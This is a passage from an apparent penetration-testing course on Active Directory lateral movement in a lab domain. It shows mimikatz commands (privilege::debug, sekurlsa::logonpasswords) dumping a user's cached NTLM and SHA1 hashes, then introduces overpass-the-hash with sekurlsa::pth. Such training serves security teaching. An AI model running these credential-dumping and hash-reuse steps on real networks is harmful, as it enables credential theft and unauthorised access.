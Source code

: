 To simulate this cached credential, we will log in to the Windows 10 CLIENT76 machine as _jeff_ and run a process as _jen_, which prompts authentication. The simplest way to do this is to right-click the Notepad icon on the desktop then shift-left click "show more options" on the popup, yielding the options in the screenshot.

![Figure 2: Enabling extra options](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PWKR/imgs/ad_lat_movement/e3aac4ec66c2a9b0a07b7160c9a3ffae-runas1.png)

From here, we enter **jen** as the username along with the associated password, which will launch Notepad in the context of that user. After successful authentication, _jen_'s credentials will be cached on this machine. We can validate this with the **sekurlsa::logonpasswords** command from **mimikatz** after having spawned an Administrative shell. The command will dump the cached password hashes.

```shell
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords

...
Authentication Id : 0 ; 1142030 (00000000:00116d0e)
Session           : Interactive from 0
User Name         : jen
Domain            : CORP
Logon Server      : DC1
Logon Time        : 2/27/2023 7:43:20 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1124
        msv :
         [00000003] Primary
         * Username : jen
         * Domain   : CORP
         * NTLM     : 369def79d8372408bf6e93364cc93075
         * SHA1     : faf35992ad0df4fc418af543e5f4cb08210830d4
         * DPAPI    : ed6686fedb60840cd49b5286a7c08fa4
        tspkg :
        wdigest :
         * Username : jen
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : jen
         * Domain   : CORP.COM
         * Password : (null)
        ssp :
        credman :
...
```

This output shows _jen_'s cached credentials under _jen_'s own session. It includes the NTLM hash, which we will leverage to overpass the hash. The essence of the overpass the hash lateral movement technique is to turn the NTLM hash into a Kerberos ticket and avoid the use of NTLM authentication. A simple way to do this is with the **sekurlsa::pth** command from Mimikatz.

The command requires a few arguments and creates a new PowerShell process in the context of _jen_. This new PowerShell prompt will allow us to obtain Kerberos tickets without performing NTLM authentication over the network, making this attack different than a traditional pass-the-hash.


[192.168.50.73]: PS C:\Users\jen\Documents> whoami